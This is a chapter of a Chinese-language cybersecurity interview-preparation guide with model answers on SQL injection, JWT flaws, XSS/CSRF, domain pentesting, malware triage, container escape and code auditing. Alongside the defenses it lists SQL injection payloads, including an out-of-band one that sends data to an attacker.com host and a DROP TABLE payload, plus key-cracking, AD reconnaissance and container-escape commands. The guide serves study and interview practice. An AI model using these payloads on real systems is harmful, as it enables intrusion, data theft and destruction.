## 九、面试准备详细指南

面试是网络安全从业者从"技术能力"跨越到"职业身份"的关键门槛。与软件开发岗位不同，安全岗位的面试不仅考察知识储备，更考察思维方式——你能否像攻击者一样思考，像防御者一样行动，像工程师一样落地。本章从面试全流程出发，覆盖技术面试、实战面试、行为面试三大维度，提供可直接复用的准备框架、答题模板和避坑指南。

### 9.1 面试全景图：从投递到拿 Offer 的完整链路

很多候选人只准备"技术问题"，忽略了面试是一个系统工程。以下是安全岗位面试的完整流程：



每个环节的考察重点截然不同：

| 环节 | 考察重点 | 常见时长 | 决策权重 |
|------|----------|----------|----------|
| HR 初筛 | 简历匹配度、薪资预期、稳定性 | 15-30 min | 筛掉明显不匹配者 |
| 技术笔试 | 基础知识广度、编码/脚本能力 | 60-90 min | 及格线，不达标直接淘汰 |
| 一面（技术基础） | 漏洞原理、协议理解、工具使用 | 45-60 min | 30-40% |
| 二面（实战深挖） | 渗透思路、代码审计、应急响应 | 60-90 min | 30-40% |
| 三面（架构综合） | 安全体系建设、技术视野、团队协作 | 30-60 min | 20-30% |
| HR 面 | 职业规划、团队适配、薪资谈判 | 30-45 min | 10-20% |

**关键洞察**：很多候选人技术能力很强但在一面就被淘汰，原因不是知识不够，而是表达结构混乱——说了五分钟，面试官没听到一个关键词。本章的核心目标之一，就是帮你建立"结构化表达"的能力。

### 9.2 面试前准备：信息收集与自我定位

#### 9.2.1 目标公司研究清单

在投递简历之前，你需要对目标公司做深度调研。这不是"了解一下就行"，而是直接影响你的答题策略和薪资谈判筹码。

**必须收集的信息**：

1. **公司安全业务类型**：甲方安全团队（内部防御）还是乙方安全公司（对外服务）？业务类型决定了面试方向——甲方偏重安全运营、应急响应、SDL；乙方偏重渗透测试、红队攻防、漏洞挖掘。
2. **技术栈偏好**：通过公司技术博客、开源项目、招聘 JD 中的技术关键词推断。例如 JD 里频繁出现"云安全""Kubernetes"，面试大概率会涉及容器逃逸、IAM 权限模型等。
3. **安全团队规模与架构**：通过 LinkedIn、脉脉等平台了解团队人数和分工。小团队要求"全能型"，大团队要求"专精型"。
4. **近期安全事件或研究成果**：如果公司最近发过 CVE、做过安全分享，面试官很可能聊到相关话题。
5. **薪资范围**：通过招聘平台、脉脉、offershow 等渠道交叉验证，避免开价离谱或被低估。

#### 9.2.2 自我定位矩阵

在准备面试之前，先用以下矩阵定位自己：



定位完成后，针对目标岗位的要求，制定"必考点"和"加分点"清单。必考点必须在面试前滚瓜烂熟，加分点准备到"能聊5分钟"的程度即可。

#### 9.2.3 简历优化要点

安全岗位的简历与其他技术岗位有显著差异。以下是关键优化点：

**技术简历的"安全特色"**：

| 模块 | 通用技术简历 | 安全岗位简历 |
|------|-------------|-------------|
| 项目经历 | 描述功能实现 | 描述漏洞发现数量、严重等级、修复方案 |
| 技能清单 | 列框架/语言 | 列攻击技术/防御技术/安全工具 |
| 成果量化 | 用户量/性能指标 | CVE 编号、SRC 排名、CTF 成绩 |
| 证书 | 可选 | CISSP/OSCP/CEH 等权重较高 |

**简历中的安全项目描述模板**：

```text
项目名称：XX平台安全加固项目
角色：安全工程师 / 渗透测试负责人
背景：XX平台承载日活XX万用户，历史上缺乏系统性安全评估
工作内容：
  - 对XX个子域名进行资产梳理和信息收集
  - 发现X个高危漏洞（SQL注入X个、XSS X个、逻辑漏洞X个）
  - 编写漏洞报告并推动开发团队修复
  - 建立SDL流程，将安全测试嵌入CI/CD管道
成果：
  - 高危漏洞修复率100%，平均修复周期从X天降至X天
  - 后续季度安全评估中同类漏洞复发率降低XX%
```

### 9.3 技术面试深度准备

技术面试是安全岗位的核心环节。以下按知识域分类，每个问题不仅给出"答案要点"，更重要的是讲解"为什么面试官问这个"以及"如何结构化回答"。

#### 9.3.1 Web 安全深度问题

##### 问题 1：请详细描述 SQL 注入的原理、类型和防御方法

**面试官考察意图**：不是让你背 OWASP Cheat Sheet，而是考察你是否理解"注入"的本质——数据与指令的边界混淆——以及你能否从攻击者视角完整覆盖攻击面。

**结构化回答框架**（建议 5-8 分钟）：

**原理层面**：

SQL 注入的根本原因是应用程序将用户输入（数据）直接拼接到 SQL 语句（指令）中，打破了数据与指令的语义边界。当攻击者构造包含 SQL 语法的输入时，数据库引擎无法区分哪些是程序意图、哪些是用户数据，从而执行攻击者注入的指令。

从编译原理的角度看，这类似于"代码注入"：如果一个程序将外部输入作为自身逻辑的一部分来解析执行，就必然存在注入风险。SQL 注入只是这个通用问题在数据库查询场景下的具体表现。

**类型分类**（按利用方式）：

| 类型 | 原理 | 适用场景 | 典型 Payload |
|------|------|----------|-------------|
| 联合查询注入 | UNION SELECT 合并攻击者查询结果 | 回显型，列数可推断 | `' UNION SELECT 1,user(),version()--` |
| 报错注入 | 利用数据库报错函数输出数据 | 有报错回显但无直接回显 | `' AND extractvalue(1,concat(0x7e,(SELECT user())))--` |
| 布尔盲注 | 通过页面返回差异逐位推断数据 | 无回显，有布尔差异 | `' AND (SELECT substring(user(),1,1))='r'--` |
| 时间盲注 | 通过响应延迟逐位推断数据 | 无回显，无布尔差异 | `' AND IF((SELECT substring(user(),1,1))='r',sleep(3),0)--` |
| 堆叠查询 | 执行多条独立 SQL 语句 | 数据库驱动支持多语句执行 | `'; DROP TABLE users;--` |
| 带外注入 | 通过 DNS/HTTP 请求外带数据 | 无直接回显，服务器可出网 | `' AND (SELECT load_file(concat('\\\\',user(),'.attacker.com\\x')))--` |

**进阶：二阶注入**

二阶注入是常被忽略的高级攻击方式。攻击者先将恶意 SQL 存入数据库（如注册用户名为 `admin'--`），当应用后续从数据库读取该数据并拼入 SQL 时触发注入。这种攻击的难点在于注入点和触发点不在同一个请求中，传统的 WAF 和静态分析很难检测。

**防御体系**（分层防御，从根因到纵深）：



**参数化查询为什么能防注入**：

参数化查询（Prepared Statement）通过将 SQL 结构和用户数据分离来消除注入。数据库在编译阶段先确定 SQL 的语法结构（`SELECT * FROM users WHERE id = ?`），然后在执行阶段将用户数据作为纯数据绑定到占位符。即使用户输入包含 SQL 语法（如 `' OR 1=1--`），数据库也只会将其视为字符串数据，不会解析为 SQL 指令。

**面试加分点**：提到参数化查询不能覆盖所有场景——例如 `ORDER BY` 子句、`LIMIT` 参数、表名/列名动态拼接等场景需要额外处理（白名单验证）。这体现了你对防御方案局限性的深入理解。

##### 问题 2：如何进行 JWT 安全分析？

**面试官考察意图**：JWT 是现代 Web 应用认证的核心机制，这个问题考察你对认证协议安全性的系统理解，而不仅仅是"知道几种攻击方式"。

**JWT 结构解析**：

JWT 由三部分组成，以 `.` 分隔：

```text
eyJhbGciOiJIUzI1NiJ9.eyJ1c2VySWQiOjEsInJvbGUiOiJ1c2VyIn0.signature
     Header (Base64URL)          Payload (Base64URL)       HMAC-SHA256
```

**关键安全分析点**：

**1. 算法混淆攻击（Algorithm Confusion）**

这是 JWT 最经典的攻击之一。当服务端使用 RSA 算法（非对称，公钥验签）验证 token 时，攻击者将 Header 中的 `alg` 改为 `HS256`（对称算法），然后用服务器的公钥（通常可公开获取）作为 HMAC 密钥签名。如果服务端库根据 token 中的 `alg` 字段而非服务端配置来选择验证算法，就会接受伪造的 token。

**攻击原理图**：



**防御方式**：服务端必须在配置层面硬编码允许的算法列表（`algorithms: ['RS256']`），绝不从 token 的 `alg` 字段动态决定。

**2. 弱密钥爆破**

如果服务端使用 HMAC 签名（HS256/HS384/HS512），密钥强度完全取决于密钥的熵。常见弱密钥包括 `secret`、`password`、`123456`、公司名等。工具如 `hashcat`、`jwt_tool` 可以高速爆破。

```bash
# hashcat 爆破 JWT HMAC 密钥
hashcat -a 0 -m 16500 jwt.txt wordlist.txt

# jwt_tool 自动测试弱密钥
python3 jwt_tool.py <JWT> -C -d wordlist.txt
```

**3. 敏感信息泄露**

JWT 的 Payload 仅做 Base64URL 编码（不是加密），任何人拿到 token 都能解码读取内容。常见错误：在 Payload 中存储密码、身份证号、内部系统地址等敏感信息。

**4. 令牌生命周期管理**

| 风险 | 说明 | 防御方案 |
|------|------|----------|
| 无过期时间 | token 永久有效 | 设置合理的 `exp`（建议 access token 15-30 min） |
| 无法撤销 | token 签发后无法主动失效 | 短 access token + refresh token 机制；或 token 黑名单 |
| 重放攻击 | 截获的 token 可重复使用 | 绑定客户端指纹（IP/UA/设备ID）到 token 声明 |
| 刷新令牌泄露 | refresh token 被盗用 | refresh token 一次性使用（rotation），检测重用时吊销整个会话 |

##### 问题 3：CSRF 和 XSS 的区别是什么？如何防御？

**面试官考察意图**：这是一道基础题，但很多人只能说出表面区别。面试官期望你从信任模型的角度解释本质差异。

**本质区别**：

- **XSS（跨站脚本攻击）**：攻击者将恶意脚本注入到**受信任的网站**中，在受害者的浏览器中执行。核心问题是**网站对用户输入的信任**。
- **CSRF（跨站请求伪造）**：攻击者诱导受害者的浏览器向**受信任的网站**发送伪造请求。核心问题是**网站对用户浏览器的信任**。

一句话总结：XSS 利用的是"网站信任用户输入"，CSRF 利用的是"网站信任用户浏览器"。

**防御方案对比**：

| 攻击 | 防御手段 | 原理 |
|------|----------|------|
| XSS | 输出编码（HTML/JS/URL/Context） | 将特殊字符转义，使其不被解析为代码 |
| XSS | CSP（内容安全策略） | 限制页面可执行的脚本来源 |
| XSS | HttpOnly Cookie | 阻止 JS 读取会话 Cookie |
| CSRF | CSRF Token | 每个表单携带随机 token，服务端验证 |
| CSRF | SameSite Cookie | 限制 Cookie 在跨站请求中的发送 |
| CSRF | 验证 Referer/Origin | 检查请求来源是否为受信任域名 |

#### 9.3.2 内网渗透与红队

##### 问题 4：请描述内网渗透的完整流程

**面试官考察意图**：考察你是否具备端到端的攻击链思维，而不是只知道零散的技术点。优秀的回答应该像讲故事一样，有清晰的"进入-侦察-提权-横向-收割-持久化"主线。

**完整攻击链**：



**每个阶段的关键技术和工具**：

**阶段一：信息收集**

进入内网后的第一件事不是攻击，而是侦察。盲目攻击容易触发告警，导致被蓝队发现。

```bash
# 网络拓扑发现
ipconfig /all                    # 本机网络配置
route print                      # 路由表
arp -a                           # ARP 缓存（相邻主机）

# 域环境信息
net group "Domain Admins" /domain    # 域管理员列表
nltest /domain_trusts                # 域信任关系
setspn -T domain.com -Q */*          # SPN 枚举（Kerberoasting 前奏）

# 活跃目录侦察
# 使用 BloodHound 进行关系图分析
# SharpHound.exe -c all -d target.com
```

**阶段二：横向移动核心手法**

| 技术 | 原理 | 工具 | 检测线索 |
|------|------|------|----------|
| Pass-the-Hash | 使用 NTLM 哈希代替密码进行认证 | Mimikatz, CrackMapExec | 4624 Type 3 登录，NTLM 认证 |
| Pass-the-Ticket | 使用 Kerberos TGT/TGS 票据认证 | Rubeus, Mimikatz | 异常的 TGT 请求，票据生命周期异常 |
| Overpass-the-Hash | 用 NTLM 哈希获取 Kerberos 票据 | Mimikatz | NTLM 哈希到 Kerberos 的转换 |
| SMB 利用 | 利用共享服务横向执行 | PsExec, smbexec | 4624 匿名登录，SMB 连接日志 |
| WMI 远程执行 | 通过 WMI 在远程主机执行命令 | wmic, Impacket | WMI 日志，Dcom 连接 |
| DCOM 利用 | 通过 DCOM 对象远程执行 | MMC20.Application | Dcom 激活日志 |

**阶段三：域渗透关键攻击**

**Kerberoasting 攻击**：请求服务账户的 TGS 票据，离线爆破服务账户密码。防御方式是为服务账户设置超过25字符的强密码，或使用托管服务账户（gMSA）。

**Golden Ticket**：获取 `krbtgt` 账户的 NTLM 哈希后，可以伪造任意用户的 TGT 票据，相当于获得域的"万能钥匙"。防御方式是定期轮换 `krbtgt` 密码（两次），并监控异常的 TGT 请求。

**DCSync**：模拟域控复制协议（DRSUAPI），从域控获取任意用户的密码哈希。只有拥有"复制目录更改"权限的账户才能执行。防御方式是严格监控域控的 DRSUAPI 复制请求，限制拥有此权限的账户。

#### 9.3.3 逆向分析与恶意代码

##### 问题 5：请描述你分析一个可疑样本的完整流程

**面试官考察意图**：考察你是否具备恶意软件分析的系统化方法论，而非东一榔头西一棒子。

**标准分析流程**：



**静态分析检查清单**：

```bash
# 1. 基础信息
file suspicious.exe                  # 文件类型
md5sum / sha256sum suspicious.exe    # 哈希值
strings suspicious.exe | head -50    # 可读字符串

# 2. PE 分析（Windows 样本）
# 使用 pefile (Python)
python3 -c "
import pefile
pe = pefile.PE('suspicious.exe')
for entry in pe.DIRECTORY_ENTRY_IMPORT:
    print(entry.dll.decode())
    for func in entry.imports:
        print(f'  {func.name}')
"

# 3. 壳检测与脱壳
upx -d suspicious.exe                # UPX 脱壳
# 复杂壳使用 OllyDbg/x64dbg 手动脱壳
```

**高危 API 关注清单**：

| API 类别 | 具体函数 | 可能用途 |
|----------|----------|----------|
| 进程操作 | CreateRemoteThread, NtCreateThreadEx | 进程注入 |
| 内存操作 | VirtualAllocEx, WriteProcessMemory | 远程代码写入 |
| 网络通信 | WinHTTP, WinINet, socket | C2 通信 |
| 注册表 | RegSetValueEx, RegCreateKeyEx | 持久化 |
| 文件操作 | CopyFile, MoveFile, DeleteFile | 自我复制/清理痕迹 |
| 加密 | CryptEncrypt, CryptGenKey | 数据加密（勒索软件特征） |
| 反调试 | IsDebuggerPresent, NtQueryInformationProcess | 反分析对抗 |

#### 9.3.4 云安全与容器安全

##### 问题 6：Kubernetes 环境下有哪些常见攻击面？

**面试官考察意图**：随着企业上云，容器安全已成为热门面试方向。这个问题考察你是否跟上技术趋势。

**K8s 攻击面全景**：



**容器逃逸典型场景**：

1. **特权容器逃逸**：容器以 `privileged: true` 运行时，可以直接访问宿主机设备，通过挂载宿主机文件系统实现逃逸。命令：`mount /dev/sda1 /mnt && chroot /mnt`。

2. **挂载逃逸**：容器挂载了宿主机的 Docker Socket（`/var/run/docker.sock`），攻击者可以通过 Docker API 在宿主机上创建新容器并挂载根文件系统。

3. **内核漏洞逃逸**：利用容器共享宿主机内核的特性，通过内核漏洞（如 Dirty Pipe CVE-2022-0847）从容器内提权到宿主机。

**防御关键措施**：

- 禁止特权容器，使用 Pod Security Standards（Restricted 级别）
- 不自动挂载 Service Account Token（`automountServiceAccountToken: false`）
- 启用 Network Policy 限制 Pod 间通信
- 定期扫描镜像漏洞（Trivy/Snyk）
- 启用审计日志监控 API Server 访问

#### 9.3.5 密码学基础

##### 问题 7：对称加密和非对称加密的区别？HTTPS 握手过程是怎样的？

**面试官考察意图**：密码学是安全的基础，这道题考察你是否理解加密体系的底层逻辑，而非死记硬背。

**对称加密 vs 非对称加密**：

| 维度 | 对称加密 | 非对称加密 |
|------|----------|------------|
| 密钥 | 加解密使用同一个密钥 | 公钥加密，私钥解密（或反过来签名） |
| 速度 | 快（AES 硬件加速可达数 GB/s） | 慢（RSA 比 AES 慢 1000 倍以上） |
| 密钥分发 | 难点：如何安全传递密钥 | 优势：公钥可公开分发 |
| 典型算法 | AES-256-GCM, ChaCha20-Poly1305 | RSA-2048, ECDSA-P256, Ed25519 |
| 适用场景 | 大量数据加密 | 密钥交换、数字签名 |

**HTTPS（TLS 1.3）握手流程**：



**TLS 1.3 相比 1.2 的关键改进**：
- 握手从 2-RTT 降至 1-RTT（甚至 0-RTT 恢复）
- 移除不安全的密码套件（RSA 密钥交换、CBC 模式、SHA-1）
- 加密了更多握手信息（服务端证书在 TLS 1.3 中是加密传输的）

**面试加分点**：提到实际部署中的常见问题——证书链不完整导致客户端验证失败、HSTS 配置不当、弱密码套件残留等。这表明你不仅理解理论，还有实战经验。

### 9.4 实战面试题深度拆解

实战面试是安全岗位最具区分度的环节。面试官通过给你一个真实（或模拟）的目标环境，观察你的思路、方法论和时间管理能力。

#### 9.4.1 Web 渗透测试实操

**典型场景**：给定一个目标 Web 应用，在 2 小时内完成渗透测试并提交报告。

**高效执行框架**：



**关键评分维度与优化策略**：

| 评分维度 | 权重 | 优化策略 |
|----------|------|----------|
| 信息收集完整性 | 20% | 不仅扫目录，还要检查 JS 文件中的 API 接口、注释中的敏感信息、.git/.svn 泄露 |
| 漏洞发现质量 | 30% | 优先找高价值漏洞（RCE > SQLi > 认证绕过 > XSS），不要在低危漏洞上浪费时间 |
| 漏洞利用深度 | 25% | 不仅证明"存在漏洞"，还要证明"能造成什么影响"——如 SQLi 要尝试读取敏感数据 |
| 报告专业度 | 15% | 包含漏洞等级、复现步骤（截图）、影响分析、修复建议，格式规范 |
| 时间管理 | 10% | 不要在一个点上死磕超过 15 分钟，标记后继续，最后回来 |

**高质量漏洞报告模板**：

```markdown
## 漏洞标题：[组件] [漏洞类型] 导致 [影响]

**漏洞等级**：高危 / 中危 / 低危
**CVSS 评分**：8.5 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N)
**影响范围**：受影响的 URL/接口/功能

### 漏洞描述
[用 1-2 句话描述漏洞是什么，为什么会存在]

### 复现步骤
1. 访问 http://target.com/login
2. 在用户名输入框输入：admin' OR 1=1--
3. 密码随意输入，点击登录
4. 观察响应：成功登录为管理员账户

### 影响分析
攻击者可以绕过认证，以任意用户身份登录系统，获取敏感数据。

### 修复建议
1. 使用参数化查询替代字符串拼接
2. 实施输入白名单验证
3. 部署 WAF 规则拦截常见 SQL 注入 Payload
```

#### 9.4.2 代码审计实操

**典型场景**：给定一段 PHP/Java/Python 代码，在 1-2 小时内找出安全漏洞。

**代码审计方法论——"数据流追踪法"**：

不是随机浏览代码寻找漏洞，而是从"数据入口"到"数据出口"追踪数据流：



**Source（数据入口）**：

```php
// PHP 常见 Source
$_GET['id']           // URL 参数
$_POST['data']        // POST 表单
$_COOKIE['token']     // Cookie
$_FILES['upload']     // 文件上传
$_SERVER['HTTP_HOST'] // HTTP 头
php://input           // 原始请求体
```

**Sink（危险操作）**：

| 语言 | 危险函数 | 对应漏洞 |
|------|----------|----------|
| PHP | `eval()`, `assert()`, `system()`, `exec()` | 命令注入/代码执行 |
| PHP | `unserialize()` | 反序列化 RCE |
| PHP | `include()`, `require()` | 文件包含 |
| PHP | `mysqli_query()` (拼接使用) | SQL 注入 |
| Java | `Runtime.exec()` | 命令注入 |
| Java | `ObjectInputStream.readObject()` | 反序列化 RCE |
| Java | `PreparedStatement` 不当使用 | SQL 注入（参数化但动态拼接） |
| Python | `eval()`, `exec()`, `os.system()` | 命令注入/代码执行 |
| Python | `pickle.loads()` | 反序列化 RCE |
| Python | `yaml.load()` (不安全) | YAML 反序列化 RCE |

**审计实战技巧**：

1. **先全局搜索危险函数**：用 `grep -rn "eval\|exec\|system\|unserialize" .` 快速定位高风险点，然后向上追踪数据来源。
2. **关注过滤逻辑的绕过**：很多代码有"看起来像过滤但实际可绕过"的逻辑，如用正则过滤 `<script>` 但没过滤 ``。
